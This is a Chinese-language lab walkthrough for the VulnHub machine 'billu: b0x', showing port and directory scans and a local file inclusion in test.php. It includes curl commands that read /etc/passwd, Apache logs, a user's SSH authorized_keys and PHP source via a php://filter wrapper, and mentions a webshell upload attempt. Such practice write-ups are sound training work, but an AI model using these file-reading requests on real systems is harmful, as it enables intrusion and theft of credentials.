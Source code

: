 # billu: b0x

2024-6-6 https://www.vulnhub.com/entry/billu-b0x,188/

difficulty: medium

## IP

192.168.10.192

## Scan

Open Port -> 22,80

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 5.9p1 Debian 5ubuntu1.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   1024 facfa252c4faf575a7e2bd60833e7bde (DSA)
|   2048 88310c789880ef33fa2622edd09bbaf8 (RSA)
|_  256 0e5e330350c91eb3e75139a44a1064ca (ECDSA)
80/tcp open  http    Apache httpd 2.2.22 ((Ubuntu))
|_http-server-header: Apache/2.2.22 (Ubuntu)
|_http-title: --==[[IndiShell Lab]]==--
| http-cookie-flags:
|   /:
|     PHPSESSID:
|_      httponly flag not set
```

直接看 80 web 服务，http://192.168.10.192/ 主页是个登陆页面，尝试 sql 注入测试，没发现有。

先用 gobuster 扫描看看：

```
http://192.168.10.192/images               (Status: 301) [Size: 317] [--> http://192.168.10.192/images/]
http://192.168.10.192/c                    (Status: 200) [Size: 1]
http://192.168.10.192/c.php                (Status: 200) [Size: 1]
http://192.168.10.192/in.php               (Status: 200) [Size: 47528]
http://192.168.10.192/in                   (Status: 200) [Size: 47524]
http://192.168.10.192/show.php             (Status: 200) [Size: 1]
http://192.168.10.192/show                 (Status: 200) [Size: 1]
http://192.168.10.192/add.php              (Status: 200) [Size: 307]
http://192.168.10.192/add                  (Status: 200) [Size: 307]
http://192.168.10.192/test.php             (Status: 200) [Size: 72]
http://192.168.10.192/test                 (Status: 200) [Size: 72]
http://192.168.10.192/index                (Status: 200) [Size: 3267]
http://192.168.10.192/index.php            (Status: 200) [Size: 3267]
http://192.168.10.192/head.php             (Status: 200) [Size: 2793]
http://192.168.10.192/head                 (Status: 200) [Size: 2793]
http://192.168.10.192/uploaded_images      (Status: 301) [Size: 326] [--> http://192.168.10.192/uploaded_images/]
http://192.168.10.192/panel                (Status: 302) [Size: 2469] [--> index.php]
http://192.168.10.192/panel.php            (Status: 302) [Size: 2469] [--> index.php]
http://192.168.10.192/head2.php            (Status: 200) [Size: 2468]
http://192.168.10.192/head2                (Status: 200) [Size: 2468]
```

扫出的目录较多。

http://192.168.10.192/in.php 是 phpinfo 页面。

http://192.168.10.192/add.php 是一个文件上传页面，尝试上传 webshell ，但是没看到回显地址。

http://192.168.10.192/test.php 提示 'file' parameter is empty. Please provide file path in 'file' parameter，这里可能存在 LFI，进行尝试，get 方式不行，使用 POST 可以看到 /etc/passwd 的文件内容：

```
curl --data-urlencode 'file=/etc/passwd' http://192.168.10.192/test.php

root:x:0:0:root:/root:/bin/bash
...
ica:x:1000:1000:ica,,,:/home/ica:/bin/bash
```

其他的几个扫描出的链接，都没看到可利用点，看看上面的 LFI 能否读取到 apache2 的日志文件：

```
curl --data-urlencode 'file=/var/log/apache2/access.log' http://192.168.10.192/test.php

curl --data-urlencode 'file=/home/ica/.ssh/authorized_keys' http://192.168.10.192/test.php

curl --data-urlencode 'file=php://filter/read=convert.base64-encode/resource=/var/www/html/index.php' http://192.168.10.192/test.php


```
